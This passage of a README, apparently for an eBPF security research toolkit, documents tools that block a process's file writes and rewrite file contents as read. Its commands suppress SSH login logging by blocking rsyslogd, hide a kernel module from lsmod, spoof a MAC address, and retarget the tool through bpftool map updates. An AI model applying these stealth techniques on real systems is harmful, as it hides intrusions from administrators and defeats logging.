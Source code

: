 Only File Descriptors > 2 will be blocked, so stdin, stdout, and stderror still work.

For example, if you block the writes for the `rsyslogd` process, ssh logins will
not be written to `/var/log/auth.log`.


## Text-Replace
```
sudo ./textreplace --filename /path/to/file --input foo --replace bar
```
This program replaces all text matching `input` in the file with the `replace` text.
This has a number of uses, for example:

To hide kernel module `joydev` from tools such as `lsmod`:
```bash
./textreplace -f /proc/modules -i 'joydev' -r 'cryptd'
```

Spoof the MAC address of the `eth0` interface:
```bash
/textreplace -f /sys/class/net/eth0/address -i '00:15:5d:01:ca:05' -r '00:00:00:00:00:00'
```
Malware conducting anti-sandbox checks might check the MAC address to look for signs it is
running inside a Virtual Machine or Sandbox, and not on a 'real' machine.


**NOTE:** Both `input` and `replace` must be the same length, to avoid adding NULL characters to the
middle of a block of text. To enter a newline from a bash prompt, use `$'\n'`, e.g. `--replace $'text\n'`.


## Text-Replace2
This program works the same as `Text-Replace`, however it has two extra features:
- The program's configuration is alterable at runtime using eBPF Maps.
- The userspace loader can detach and exit

### Altering Configuration
The filename is stored in the eBPF Map `map_filename`. The Key is always `0`, and the value matches this struct:
```c
struct tr_file {
    char filename[50];
    unsigned int filename_len;
};
```
That is, 50 ascii characters, then an unsigned int mathcing the length of the actual filename string.

The easiest way to view and alter eBPF maps is using `bpftool`:
```bash
# List current config
$> bpftool map dump name map_filename
[{
        "key": 0,
        "value": {
            "filename": "/proc/modules",
            "filename_len": 13
        }
    }
]

# Alter filename to be 'AAAA'
$> bpftool map update name map_filename \
    key hex 00 00 00 00 \
    value hex 61 61 61 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 04 00 00 00
```
